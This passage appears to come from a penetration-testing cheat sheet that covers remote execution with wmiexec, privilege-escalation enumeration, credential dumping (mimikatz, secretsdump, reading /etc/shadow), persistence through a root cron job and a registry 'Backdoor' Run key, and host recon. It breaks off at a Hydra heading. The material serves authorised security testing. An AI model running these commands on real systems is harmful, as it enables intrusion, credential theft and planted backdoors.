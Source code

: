   ```bash
wmiexec.py domain/user:pass@target.com
```

**What to do next:**
- Crack dumped hashes (see next section).
- Use found creds for lateral movement.

---

## 6. Exploitation & Privilege Escalation

**Goal:** Get a shell and escalate privileges to root/Administrator.

- **Linux Privilege Escalation**
  ```bash
./linpeas.sh > linpeas_out.txt
find / -perm -4000 2>/dev/null
crontab -l
```
- **Windows Privilege Escalation**
  ```bash
winPEAS.exe > winpeas_out.txt
```
- **Credential Dumping**
  ```bash
mimikatz
secretsdump.py -just-dc-user domain/user:pass@dc-ip
samdump2
cat /etc/shadow
```
- **Persistence**
  ```bash
echo "* * * * * root /tmp/rev.sh" >> /etc/crontab
reg add HKLM\Software\Microsoft\Windows\CurrentVersion\Run /v Backdoor /t REG_SZ /d "C:\path\to\backdoor.exe"
```
- **Host Recon**
  ```bash
whoami
hostname
ipconfig /all
ifconfig
ps aux
tasklist
netstat -ano
```

---

### Password Cracking Tools

#### Hydra
Hydra is a fast and flexible login cracker supporting numerous protocols.
